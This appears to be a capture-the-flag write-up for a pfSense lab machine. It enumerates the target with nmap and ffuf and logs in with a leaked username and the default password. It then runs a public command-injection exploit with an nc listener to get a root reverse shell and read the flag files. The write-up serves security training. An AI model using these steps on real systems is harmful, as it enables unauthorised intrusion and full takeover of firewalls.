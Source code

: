 Target: 10.10.10.60

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.60

Nmap scan report for 10.10.10.60
Host is up (0.039s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://10.10.10.60/FUZZ -ic

themes                  [Status: 301, Size: 0, Words: 1, Lines: 1]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
includes                [Status: 301, Size: 0, Words: 1, Lines: 1]
javascript              [Status: 301, Size: 0, Words: 1, Lines: 1]
classes                 [Status: 301, Size: 0, Words: 1, Lines: 1]
widgets                 [Status: 301, Size: 0, Words: 1, Lines: 1]
tree                    [Status: 301, Size: 0, Words: 1, Lines: 1]
shortcuts               [Status: 301, Size: 0, Words: 1, Lines: 1]
installer               [Status: 301, Size: 0, Words: 1, Lines: 1]
wizards                 [Status: 301, Size: 0, Words: 1, Lines: 1]
csrf                    [Status: 301, Size: 0, Words: 1, Lines: 1]
filebrowser             [Status: 301, Size: 0, Words: 1, Lines: 1]
```

checking 10.10.10.60

![index](sense1.png)

enumerating txt files ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://10.10.10.60/FUZZ.txt -ic

changelog               [Status: 200, Size: 271, Words: 35, Lines: 10]
system-users            [Status: 200, Size: 106, Words: 9, Lines: 7]
```

checking changelog.txt

![changelog ](sense2.png)

checking system-users.txt

![system-users](sense3.png)

logging in with found username `rohit` and default password `pfsense`

![log-in](sense4.png)

### Findings:Looking for attack vectors

Search for pfsense 2.1 exploits.


## Foothold:

searching for pfsense 2.1.3 exploits
```
$ searchsploit pfsense 2.1.3

----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                     | php/webapps/43560.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

$ searchsploit -m php/webapps/43560.py

  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

running the exploit
```
$ python3 43560.py --rhost 10.10.10.60 --lhost <ip> --lport 9001 --username rohit --password pfsense

CSRF token obtained
Running exploit...
Exploit completed
```

```
# id

uid=0(root) gid=0(wheel) groups=0(wheel)
```

```
# cd /home/rohit

# cat user.txt

<redacted>
```

```
# cat /root/root.txt

<redacted>
```
